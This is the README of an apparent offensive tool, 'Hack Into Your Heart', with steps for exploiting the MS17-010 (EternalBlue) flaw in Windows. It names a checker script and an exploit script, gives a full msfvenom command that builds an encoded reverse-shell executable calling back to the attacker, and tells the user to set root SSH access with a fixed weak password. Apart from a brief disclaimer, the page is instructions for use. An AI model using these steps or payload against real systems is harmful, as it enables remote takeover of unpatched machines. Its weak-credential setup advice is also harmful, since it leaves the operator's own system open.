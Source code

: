 # Hack Into Your Heart

**This tool is only use for academic and educational.If someone use this tool causes any loss to others, I will not take any responsibility.**

You must change root password to !ROOTER and open SSH root permissions.

## Usage

Login page default credentials is admin:admin

Start SSH service for ai2 connect.
Download the ms17-010.sh to /root and put the command.rc to /root the ms17-010.sh will used.
If the vulnerable VM has the MS17-010 vulnerabilities, you can run checker.py with python2 to confirm target can be exploit.
When checker.py is successful scan the vulnerable VM pipe, run send_and_execute.py with python2 to exploit the vulnerable VM.

If you no have the shell.exe, use the msfvenom to spawn one.
```
msfvenom -p windows/shell_reverse_tcp -a x86 -e x86/shikata_ga_nai LHOST=<Your Local IP> LPORT=<Listen Port> -f exe -o shell.exe
```

